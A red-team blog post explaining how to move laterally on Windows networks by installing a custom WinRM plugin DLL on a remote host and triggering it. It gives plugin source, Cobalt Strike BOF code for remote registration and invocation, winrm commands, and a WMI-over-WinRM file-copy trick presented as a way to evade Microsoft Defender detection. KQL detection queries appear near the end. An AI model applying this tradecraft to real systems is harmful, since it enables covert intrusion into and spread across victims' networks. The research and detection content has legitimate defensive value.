

+++
title = 'Exploring WinRM plugins for Lateral Movement'
date = 2025-01-20
draft = false
summary = 'We explore how to leverage WinRM plugins to perform lateral movement to other systems. We also take a look at how the `CIM_LogicFile` WMI class can be used to bypass some tricky detections by Microsoft Defender. Finally, we put all the logic in a Cobalt Strike BOF.'
+++

> Post co-published at [FalconForce blog](https://falconforce.nl)

## TL;DR
In this blog, we explore how to leverage WinRM plugins to perform lateral movement to other systems. We also take a look at how the `CIM_LogicFile` WMI class can be used to bypass some tricky detections by Microsoft Defender. Finally, we put all the logic in a Cobalt Strike BOF.

## Context
One day, I realized I did not have any Cobalt Strike BOF to connect to WinRM. This can come in handy when you steal a token from a high-privileged user and want to connect to another system using WinRM. Certainly, an alternative way to do this would be to dump LSASS to get the hash from the high-privileged user, and then use Pass-The-Hash together with something like Evil-WinRM via Socks. However, I think this last approach has a higher chance of being detected.

Determined to fill this missing bit of tradecraft, I went straight to the [Microsoft documentation about WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) and started looking around. After some reading, I discovered the [following repository](https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/Win7Samples/sysmgmt/winrm) with multiple examples provided by Microsoft. One of them consisted of a client to interact with the WinRM shell. So, I decided to port this example to a BOF. You can have a look at the final code [here](https://github.com/FalconForceTeam/bof-winrm-client).

Of course, if I had spent the time to have a better look on Google, I would have found two other examples of WinRM BOFs [here](https://pre.empt.blog/2022/winrm-reflective-dlls-and-aggressor-scripts) and [here](https://github.com/219adlab/winrmsh), 🤷‍♂️. But hey, then I wouldn't have discovered WinRM plugins were a thing.

*Expectations management: to interact with WinRM you need admin on the target system, therefore, everything explained here will assume you have such rights.*

## About WinRM plugins
According to the [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/winrm/wsman-service-plug-in-configuration), WinRM offers an API to accept third-party plugins. These plugins consist of DLLs that need to be located in the `System32` folder. To use a plugin, first it needs to be registered in the system with the following command:

```
winrm create http://schemas.microsoft.com/wbem/wsman/1/config/plugin?name=MyPlugIn -file:myplugin.xml
```

The XML that needs to be passed looks like this:
```
<PlugInConfiguration xmlns="http://schemas.microsoft.com/wbem/wsman/1/config/PluginConfiguration" 
                     Name="MyPlugIn"
                     Filename="%systemroot%\system32\myplugin.dll" 
                     SDKVersion="1"
                     XmlRenderingType="text"
                     Architecture="64"
                     Enabled="true">

 <InitializationParameters>
  <Param Name="myParam1" Value="myValue1"/>
  <Param Name="myParam2" Value="myValue2"/>
 </InitializationParameters>

 <Resources>
  <Resource ResourceUri="https://schemas.MyCompany.com/MyUri1" SupportsOptions="true" ExactMatch="false">
   <Capability Type="Get" SupportsFragment="true"/>
   <Capability Type="Put" SupportsFragment="true"/>
   <Capability Type="Create"/>
   <Capability Type="Delete"/>
   <Capability Type="Invoke"/>
   <Capability Type="Enumerate" SupportsFiltering="true"/>
  </Resource>

  <Resource ResourceUri="https://schemas.MyCompany.com/MyUri2" SupportsOptions="false" ExactMatch="true">
   <Security Uri="https://schemas.MyCompany.com/MyUri2" Sddl="O:NSG:BAD:P(A;;GA;;;BA)"/>
   <Security Uri="https://schemas.MyCompany.com/MyUri2/MoreSpecific" Sddl="O:NSG:BAD:P(A;;GR;;;BA)" ExactMatch="true"/>
   <Capability Type="Shell"/>
  </Resource>
 </Resources>
</PlugInConfiguration>
```

This XML defines multiple properties, such as the location for the DLL in the `System32` folder, the URI which will be used to call it and the capabilities that the plugin supports. Depending on the capabilities supported, the plugin DLL will need to implement certain methods. The Microsoft documentation details the methods required to implement a plugin with shell capability, similar to the one that is used when you use the `winrs.exe` binary to execute commands on a remote system. You can even find a very nice example of this type of plugins in [this Microsoft repository](https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/Win7Samples/sysmgmt/winrm/WSManShellPlugin) 

However, these types of plugin are, at first glance, pretty complex, and implementing a lateral movement technique seemed a bit of an overkill. My intention was to implement the minimum expression of a WinRM plugin where its main function is loading shellcode. In that case, a plugin with only a `Get` or `Put` capability would be enough. Unfortunately, I couldn't find any documentation to implement this type of plugin, not even the methods that need to be exported in the DLL for these *basic* capabilities.

## Built-in WinRM plugins
By looking around on the internet, it doesn't seem very popular to develop WinRM plugins. So, what about already-installed plugins?

Funnily enough, the WSMan configuration is exposed as a PowerShell drive, which allows to enumerate the plugins registered in system:

```
PS> Get-PSDrive

Name           Used (GB)     Free (GB) Provider      Root ...
----           ---------     --------- --------      ---- ...
...
Variable                               Variable
WSMan                                  WSMan
 
PS> ls wsman:\localhost

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost

Type            Name                           SourceOfValue   Value
----            ----                           -------------   -----
System.String   MaxEnvelopeSizekb                              500
System.String   MaxTimeoutms                                   60000
System.String   MaxBatchItems                                  32000
System.String   MaxProviderRequests                            4294967295
Container       Client
Container       Service
Container       Shell
Container       Listener
Container       Plugin
Container       ClientCertificate

PS> ls WSMan:\localhost\Plugin\

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=Event Forwarding Plugin}      Event Forwarding Plugin
Container       {Name=microsoft.powershell}         microsoft.powershell
Container       {Name=microsoft.powershell.workf... microsoft.powershell.workflow
Container       {Name=microsoft.powershell32}       microsoft.powershell32
Container       {Name=microsoft.windows.serverma... microsoft.windows.servermanagerworkflows
Container       {Name=WMI Provider}                 WMI Provider
```

Here we see that a base install of Windows already includes several WinRM plugins and some familiar names like PowerShell, used for PSRemoting, are there. But, where's all this information saved?

Running Process Monitor uncovered the following while enumerating WSMan with PowerShell.


Going to this location in the registry we see a very familiar structure:


It seems that most of the WSMan configuration, including plugins, is stored in these keys. In fact, Process Monitor will show new keys being created in that same location when you run the `winrm create ...` to register a new plugin.

Taking a look at the associated data of one of the plugins shows that the `ConfigXML` key stores the Manifest for the plugin. For example, in the case of the PowerShell plugin for PSRemoting:


Which logically, has a `Shell` capability. Looking at the exports of the `pwrshplugin.dll`, we can see it exports a very familiar set of of methods. These are the same functions implemented by the demo WinRM plugin and the ones already documented in Microsoft knowledge base. 

```
PS> dumpbin /EXPORTS .\pwrshplugin.dll
...
    ordinal hint RVA      name

          1    0 00003220 GetCLRVersionForPSVersion
          2    1 00002F10 PerformWSManPluginReportCompletion
          3    2 00003740 WSManPluginCommand
          4    3 000039B0 WSManPluginConnect
          5    4 000038B0 WSManPluginReceive
          6    5 000037C0 WSManPluginReleaseCommandContext
          7    6 000036F0 WSManPluginReleaseShellContext
          8    7 00003820 WSManPluginSend
          9    8 000035F0 WSManPluginShell
         10    9 00003500 WSManPluginShutdown
         11    A 00003930 WSManPluginSignal
         12    B 00003430 WSManPluginStartup
```

What about the other plugins? The `Microsoft.Windows.ServerManagerWorkflows` plugin uses the same DLL as the PowerShell ones. Would that mean there are other ways to natively interact with systems via PSRemoting, besides the PowerShell cmdlet? Definitely interesting, but that's one thing to check in the future.

Looking at the last two plugins, the `Event Forwarding Plugin` only has the `Subscribe` capability in the manifest, which is a bit discouraging. However, the `WMI Provider` implements almost all of them!
```
<PlugInConfiguration
    Filename="C:\Windows\system32\WsmWmiPl.dll" ...>
    <Resources>
        <Resource ResourceUri="http://schemas.microsoft.com/wbem/wsman/1/wmi" SupportsOptions="true">
            <Security Uri="" ... />
            <Capability Type="Identify" />
            <Capability Type="Get" SupportsFragment="true" />
            <Capability Type="Put" SupportsFragment="true" />
            <Capability Type="Invoke" />
            <Capability Type="Create" />
            <Capability Type="Delete" />
            <Capability Type="Enumerate" SupportsFiltering="true" />
            <Capability Type="Subscribe" SupportsFiltering="true" />
        </Resource>
        ...
    </Resources>
    ...
</PlugInConfiguration>
```

And these are the exports of the `WsmWmiPl.dll`:
```
> dumpbin /EXPORTS .\WsmWmiPl.dll
...
    ordinal hint RVA      name
         28   1B 00003B00 WSManPluginShutdown
         29   1C 00003E80 WSManPluginStartup
         30   1D 00004590 WSManProvCreate
         31   1E 000047F0 WSManProvDelete
         32   1F 000049D0 WSManProvEnumerate
         33   20 00004CC0 WSManProvGet
         34   21 00004EF0 WSManProvIdentify
         35   22 00005150 WSManProvInvoke
         36   23 000053E0 WSManProvPullEvents
         37   24 00005560 WSManProvPut
         38   25 00005810 WSManProvSubscribe
         39   26 00005B00 WSManProvUnsubscribe
         ...
```

These functions are not documented by Microsoft and looking for them on Google and GitHub doesn't return any interesting results. Does this mean we are in the correct path to find something cool? Maybe, or maybe not.

## Deeper look into WsmWmiPl.dll
Disassembling the binary in IDA and taking a look at the `WSManProvPut` export, we see how it first calls the constructor of the `TSTRBUFFER` and `AdapterParams` classes.


Then it interacts with WMI to update the records via the `PutXmlToCimObject` and `GetXmlFromCimObject` functions.


And before ending, it calls three functions related to WSMan: `GetWsmanData`, `WSManPluginObjectResult` and `WSManPluginOperationComplete`.


This last call is [documented](https://learn.microsoft.com/en-us/windows/win32/api/wsman/nf-wsman-wsmanpluginoperationcomplete) and it reports the completion of an operation in a WinRM plugin. Therefore, it seems straightforward to implement the `put` capability in a plugin. Most of the actions observed above don't seem to be required for our case. We just need to make sure we call `WSManPluginOperationComplete` before returning from `WSManProvPut`. Just one detail is missing: the function prototype of `WSManProvPut`. Fortunately, this can be obtained by disassembling the `WsmSvc.dll` in IDA and looking for this function:


## Minimal WinRM plugin
With all that information, we can already compile a very basic WinRM plugin. We want to put the main logic of the shellcode loader inside `WSManProvPut`. Then, `WSManPluginStartup` and `WSManPluginShutdown` need to be there, since they are required for any WinRM plugin. At this point, you may ask: why go through all the effort to look for another function? Why not execute stuff in `DLL_PROCESS_ATTACH` within `dllmain` or even in `WSManPluginStartup`? The reasons are, firstly, to avoid loader lock issues, and secondly, looking at the documentation of `WSManPluginStartup`, it seems this function can be called multiple times, which isn't something we want.

The `dllmain.cpp` looks like this:
```
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
	return TRUE;
}

extern "C" __declspec(dllexport) DWORD WINAPI WSManPluginStartup(
	DWORD flags,
	PCWSTR applicationIdentification,
	PCWSTR extraInfo,
	PVOID* pluginContext)
{
	OutputDebugString(L"Inside WSManPluginStartup");
	return NO_ERROR;
}

extern "C" __declspec(dllexport) DWORD WINAPI WSManPluginShutdown(
	PVOID pluginContext,
	DWORD flags,
	DWORD reason)
{
	OutputDebugString(L"Inside WSManPluginShutdown");
	return NO_ERROR;
}

extern "C" __declspec(dllexport) VOID WINAPI WSManProvPut(WSMAN_PLUGIN_REQUEST* requestDetails) {
	OutputDebugString(L"Inside WSManProvPut");
	// run_stuff();
	WSManPluginOperationComplete(requestDetails,
		0,
		GetLastError(),
		NULL);
	return;
}
```

After compiling, we must copy the DLL to `C:\Windows\System32`. The name of the DLL doesn't need to be something in specific. For example, in this case it is `another-winrm-plugin.dll`.

Then to register the plugin, we must first create the following `manifest.xml`:
```
<PlugInConfiguration
        xmlns="http://schemas.microsoft.com/wbem/wsman/1/config/PluginConfiguration" 
        Name="another-winrm-plugin"
        Filename="%systemroot%\system32\another-winrm-plugin.dll" 
        SDKVersion="1"
        XmlRenderingType="text"
        Architecture="64"
        Enabled="true">
    <Resources>
        <Resource
                ResourceUri="https://schemas.microsoft.com/another-winrm-plugin"
                SupportsOptions="true"
                ExactMatch="true">
            <Capability Type="Put" />
        </Resource>
    </Resources>
</PlugInConfiguration>
```

And then execute this `winrm` command:
```
PS> winrm create http://schemas.microsoft.com/wbem/wsman/1/config/plugin?name=another-winrm-plugin -file:.\manifest.xml

ResourceCreated
    Address = http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous
    ReferenceParameters
        ResourceURI = http://schemas.microsoft.com/wbem/wsman/1/config/plugin
        SelectorSet
            Selector: name = another-winrm-plugin
```

If we take a look at the registry, we see how a new key has been created:


Before calling our plugin, we must first restart the WinRM service:
```
PS> Get-Service winrm | Restart-Service
```

And finally, we call the plugin with WinRM. Just note, you need to pass an *empty* XML file. Its contents can be as simple as `<a/>`.
```
winrm put https://schemas.microsoft.com/another-winrm-plugin -file:.\contents.xml
```

Thanks to [DebugView](https://learn.microsoft.com/en-us/sysinternals/downloads/debugview), we see the `OutputDebugString` calls. One thing to notice, is that the `WSManPluginShutdown` has not been called. After a quick look at the [docs](https://learn.microsoft.com/en-us/windows/win32/api/wsman/nc-wsman-wsman_plugin_shutdown) , it seems this is only called when the plugin DLL is unloaded. After some testing, restarting WinRM calls this function; nothing that really affects us for now.


In ProcessHacker we see how `winprovhost.exe` is the process responsible of loading and executing the WinRM plugin. It seems this process will be running even after a successful call to the `Put` method. However, restarting the WinRM service will nicely (?) exit this process, which triggers a call to `WSManPluginShutdown`.


## Lateral movement BOF
At this point, we have all we need to program a lateral movement BOF with WinRM plugins. To make it operator-friendly, the BOF can be divided in the following three main actions:

**1 - Install the plugin**
- Register the WinRM plugin. To interact at this level with WinRM, you need to use COM programming and I just couldn't make it to work. There are two possible solutions for this (guess what I chose):
	- *Proper solution*: Learn COM programming and make it work.
	- *Short-term solution + technical debt*: Enable and start `RemoteRegistry` via `SCManager` and create keys with `RegCreateKeyExW`.
- Copy over the file to the `System32` folder with `CreateFile` and `WriteFile`.
- Stop `RemoteService` and restore its configuration to default.

BOF command:
```
beacon> winrm-plugin-jump --action install --hostname app1 --dll <local-path-to-dll>
```

**2 - Call the WinRM plugin**: Now we just need to call the `Put` method of our WinRM plugin. This time, I managed to do it via COM (didn't have any other choice). Below, I describe the main calls needed to do these actions from C. As you may have guessed, I'm far from having any experience in COM programming (for now), so any constructive feedback is very welcome!

Initialize COM for the current thread and create an instance for the `WSMan` class:
```
 HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CoInitializeEx, COM error: (hr=%08X)\n", hr);
     return;
 }
 DEBUG("Success CoInitializeEx\n");

 CLSIDFromString(L"{BCED617B-EC03-420b-8508-977DC7A686BD}", &CLSID_WSMAN);
 CLSIDFromString(L"{190D8637-5CD3-496d-AD24-69636BB5A3B5}", &IID_IWSMAN);

 IWSMan* pWSMan = NULL;
 hr = CoCreateInstance(CLSID_WSMAN, NULL, CLSCTX_INPROC_SERVER, IID_IWSMAN, (void**)&pWSMan);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CoCreateInstance, COM error: %ld)\n", hr);
     goto COMUninitialize;
 }
 DEBUG("Success CoCreateInstance\n");
```

Using the `CreateSession` method from the object `pWSMan` we connect to the remote server:
```
 IDispatch* pSessionDispatch = NULL;
 swprintf_s(remoteComputerNameWsMan, MAX_PATH, L"http://%s:5985/wsman", remoteComputerName);
 BSTR connectionUrl = SysAllocString(remoteComputerNameWsMan);
 hr = pWSMan->CreateSession(connectionUrl, NULL, NULL, &pSessionDispatch);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CreateSession, COM error: (hr=%08X)\n", hr);
     goto COMIWSManRelease;
 }
 DEBUG("Success CreateSession\n");
```

To expose and be able to call the `Put` method, we first need to query a pointer to the session object with `QueryInterface`:
```
CLSIDFromString(L"{FC84FC58-1286-40c4-9DA0-C8EF6EC241E0}", &IID_WSMAN_SESSION);
IWSManSession* pSession = NULL;
hr = pSessionDispatch->QueryInterface(IID_WSMAN_SESSION, (void**)&pSession);
if (FAILED(hr)) {
    BeaconPrintf(CALLBACK_ERROR, "error QueryInterface, COM error: (hr=%08X)\n", hr);
    goto COMInstanceRelease;
}
DEBUG("Success QueryInterface\n");
```

And then we finally make the call:
```
 VariantInit(&resourceUri);
 resourceUri.vt = VT_BSTR;
 resourceUri.bstrVal = SysAllocString(L"https://schemas.microsoft.com/another-winrm-plugin");
 BSTR resourceData = SysAllocString(L"<a/>");
 LONG flags = NULL;
 BSTR result = NULL;
 hr = pSession->Put(resourceUri, resourceData, flags, &result);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error Put, COM error: (hr=%08X)\n", hr);
     goto COMClearVariant;
 }
 DEBUG("Success Put, result: %ws\n", result);
```

BOF command:
```
beacon> winrm-plugin-jump --action call --hostname app1
```

**3 - Uninstall the plugin**: Before forgetting about the system, we need to clean all ~~the mess~~ the changes we made.
- Enable and start `RemoteRegistry` via `SCManager` and delete the keys with `RegDeleteTreeW` (and ask a bit more technical debt).
- Restart the WinRM service. Keep in mind that doing this will cause all beacons running within `winprovhost.exe` process to die.
- Delete the DLL from `System32`.

BOF command:
```
beacon> winrm-plugin-jump --action uninstall --hostname app1
```

You can find the code for the WinRM plugin + the BOF [here](https://github.com/FalconForceTeam/bof-winrm-plugin-jump).

## Conclusion
- Using WinRM plugins, we managed to successfully perform lateral movement in a stealthy fashion.
- This is a newly discovered technique which allows to...
- ...
- ...
- ...

...shit! It's detected by Defender, and twice!


That's ... awful. In fact, it's worse. This was one of the few built-in alerts I ever faced that took longer to trigger. It took more than 1 hour to appear from the moment I executed the actions, making me think I crafted something that is not detected out-of-the-box.

To be honest, it shouldn't have been that surprising the detection triggered, taking into account we do all kind of nasty things to the target system from the OpSec point of view. Interacting with services, copying file to `System32` over the network via shares, etc. Seems like a lost cause, doesn't it? Maybe that's why no one ever wanted to touch WinRM plugins.

## But wait, how?
The plugin we compiled for WinRM can't be made less malicious; it just exports three functions, plus it only calls `OutputDebugString` and `WSManPluginOperationComplete`. WinRM plugins, although not widely used, are documented and meant to be used, right? Surely, there must exist a way to implement a plugin that doesn't trigger an alert from the same company that designed them!

Looking back, the dirtiest thing we have done so far is to copy files remotely using the `c$` to `System32`. I can't imagine many legit software installs or updates do that. Let's take a look at the file events collected by Defender to see how this activity is reported.


As you can see, the `FileCreated` operation contains the property `ShareName` that is filled if it happened from a share, in our case `c$`. This makes sense, since we used a URI like `\\ws1\c$\...` to copy the file remotely.

So, what if we repeat all the steps detailed above, except the file copy operation to `System32`? In our next attempt, we do that last step via RDP.


And after more than 2h, nothing triggers on Defender! Not bad and looking promising. But, how do we do this remotely?

## Moving files locally (but remotely) with `CIM_LogicFile` WMI class
Looking in Google for WMI tradecraft. I found [this post](https://fortynorthsecurity.com/blog/wmi/) from the guys at FortyNorth Security. It's a straight-to-the-point post, which basically explains you can perform copy operations via the `CIM_LogicalFile` WMI class. Since they already explained nicely how to work with WMI objects, I'm not going to repeat it here again. 

With that, we can follow this strategy: first copy the file to the `C:\temp` directory `c$` share and then use the WMI class to move it to its final destination on `System32`.

Let's take a look at how the PowerShell commands would look like in our case:
```
PS> $file = Get-WmiObject -Class CIM_LogicalFile `
    -Filter 'Name = "C:\\temp\\temp-another-winrm-plugin.dll"' `
    -ComputerName ws1

PS> Invoke-WmiMethod -InputObject $file -Name copy `
    -ArgumentList "C:\\Windows\System32\another-winrm-plugin.dll"
```

A good initial sign about using this class, is that you never work with shares. So no reference to `c$`. Before proceeding and implementing this as a BOF, let's take a look in Defender to see how this operation is reflected in the logs.


It seems that Defender is capable to register WMI commands. We can see how the first `Get-WmiObject` is internally translated as a `SELECT` statement.


However, the copy operation only registers the source path. In fact, it seems that this information comes from the moment you create the object. Plus, the destination path is not seen anywhere as part of this operation. That means that, unless some manual time-based correlation is done with `FileCreated` events, this operation is invisible from the point of view of Defender! Something to keep in mind for the future.

Lastly, the `FileCreated` event I mentioned before, which is performed by `wmiprsve.exe`,  doesn't seem to indicate it was *asked* from another system.


Copying the WinRM plugin to `System32` via the `CIM_LogicFile` WMI class is definitely promising. But there's one problem: interacting *natively* with WMI involves RPC calls, which needs TCP/135 plus an ephemeral port. This yet-to-exist lateral movement technique based on WinRM plugins already needs TCP/445 for service and file operations plus TCP/5985 for WinRM. Adding on top of that a bunch of RPC interactions reduces the usefulness in a real environment even more.
## WMI via WinRM
But wait again! A couple of sections above, we explored a plugin called WMI Provider, which you guessed right, allows you to interact with WMI via WinRM. This came to my attention thanks to [this post](https://redcanary.com/blog/threat-detection/lateral-movement-winrm-wmi/) from Red Canary. Taking a look at the [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-and-wmi) also helped a bit.

So, we can translate the PowerShell WMI commands to `winrm` commands like:
```
winrm invoke copy http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile?name=C:\\temp\\temp-another-winrm-plugin.dll `
    '@{filename="C:\\Windows\\System32\\another-winrm-plugin.dll"}'
```

Before porting this to C for the BOF, let's take a look at the HTTP SOAP sent. By default, WinRM transmissions are encrypted. But you can use [scripts like this](https://github.com/h4sh5/decrypt-winrm) to decrypt them. Or even better in this scenario, you can change the configuration of the WinRM client and server to allow unencrypted communications. This can be achieved with the following commands (to be executed in client and server respectively):

```
winrm set winrm/config/client '@{AllowUnencrypted="true"}'
winrm set winrm/config/service '@{AllowUnencrypted="true"}'
```

Then, after executing the `winrm invoke copy` operation, we see the following HTTP messages in Wireshark (the wrong encoding is due to the fact the body of the HTTP messages is UTF-16 encoded, while the HTTP headers are UTF-8).


Prettifying the body:
```
<s:Envelope ...>
    <s:Header>
        ...
        <w:SelectorSet>
            <w:Selector Name="name">C:\temp\another-winrm-plugin.dll</w:Selector>
        </w:SelectorSet>
    </s:Header>
    <s:Body>
        <p:copy_INPUT
            xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile">
            <p:filename>C:\Windows\System32\another-winrm-plugin.dll</p:filename>
        </p:copy_INPUT>
    </s:Body>
</s:Envelope>
```

Calling the WMI Class `Invoke` method via WinRM from C is very similar to the `Put` call explained before. The contents of the body from above needs to be passed  in the `parameters` argument of the `Invoke` call.

```
BOOL copyFileCIM_LogicalFile(LPCWSTR remoteComputerName) {

	<Initialize COM, Create WSMan object, CreateSession and QueryInterface>
	
	WCHAR CIM_LogicalFilePath[MAX_PATH];
	swprintf_s(CIM_LogicalFilePath, MAX_PATH,
		LR"(http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile?name=C:\%s.dll)",
		PLUGIN_TEMP_NAME);
	VariantInit(&resourceUri);
	resourceUri.vt = VT_BSTR;
	resourceUri.bstrVal = SysAllocString(CIM_LogicalFilePath);
	WCHAR inputParametersXML[512];
	swprintf_s(inputParametersXML, 512,
		LR"(<p:copy_INPUT
xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/CIM_LogicalFile">
<p:filename>C:\Windows\System32\%s.dll</p:filename>
</p:copy_INPUT>)",
		PLUGIN_NAME);
	BSTR inputParameters = SysAllocString(inputParametersXML);
	LONG flags = NULL;
	BSTR result = NULL;
	HRESULT hr = pSession->Invoke(SysAllocString(L"Copy"), resourceUri, inputParameters, flags, &result);
	if (FAILED(hr)) {
		BeaconPrintf(CALLBACK_ERROR, "error Invoke Copy, COM error: (hr=%08X)\n", hr);
		success = FALSE;
		goto COMClearVariant;
	}
	DEBUG("Success Invoke Copy, result: %ws\n", result);

	<clean-operations>
}
```

And that's it, we can now perform the attack without triggering Defender alerts! The final code for the BOF is [here](https://github.com/FalconForceTeam/bof-winrm-plugin-jump) (same link as before 😉).

Before finishing, a quick video showing how the BOF can be used to laterally move to another computer using the technique explained here. Some notes:
- The DLL used to get the beacon implements some evasion techniques to avoid being statically and dynamically flagged by Defender, which I haven't covered here.
- As far as I could check, calling non-malicious-looking DLLs should be good to go to use with this BOF. However, a DLL straight out of Cobalt Strike will definitely be flagged.



## Detection
To detect this technique, we can look for DLL load events by `wsmprovhost.exe` that load a binary whose prevalence is below a certain threshold, for example, `100`. Certain false-positives can be expected if a non-built-in WinRM plugin is used in the environment. In that case, allow-listing it should be enough.

```sql
DeviceImageLoadEvents
| where TimeGenerated >= ago(30d)
| where InitiatingProcessFileName =~ "wsmprovhost.exe"
| invoke FileProfile(SHA1, 1000)
| where ProfileAvailability !~ "Error"
| where GlobalPrevalence < 100
| where FolderPath !startswith @"C:\windows\assembly\nativeimages_"
```

We can even go one step further by correlating this to files dropped on disk:
```sql
let potentialPlugins = DeviceImageLoadEvents
| where Timestamp >= ago(30d)
| where InitiatingProcessFileName =~ "wsmprovhost.exe"
| where FolderPath !startswith @"C:\windows\assembly\nativeimages_"
| invoke FileProfile(SHA1, 1000)
| where ProfileAvailability !~ "Error"
| where GlobalPrevalence < 100
| extend FolderPath=tolower(FolderPath)
;
let potentialWrites = DeviceFileEvents
| where Timestamp >= ago(30d)
| where ActionType in~ ("FileCreated", "FileRenamed", "FIleModified")
| where SHA1 in~ ((potentialPlugins | project SHA1))
| extend FolderPath=tolower(FolderPath)
;
potentialPlugins
| join kind=inner potentialWrites on SHA1, DeviceId, FolderPath
```

Thanks to Henri Hambartsumyan for creating these detections.

## Final thoughts
- We leveraged WinRM plugins to execute code via a DLL on a target system. As mentioned before, you need to be local admin on the target system.
- The use of the `CIM_LogicFile` WMI class over WinRM saved the day and it's something to keep in mind to avoid similar alerts (in Defender).
- In fact, it would be good to explore how the service and registry operations involved in this technique could be done using WMI classes. This would free us from interacting with port TCP/445 . But that's something that may come in a future post.
- ChatGPT still surprises me when it comes to providing implementation examples of common functions. But learning COM programming still needs to happen, [AI may not help us next time](https://youtu.be/oeBxKWZLyis?si=2Hfrph4BRcd5t4jR&t=214).
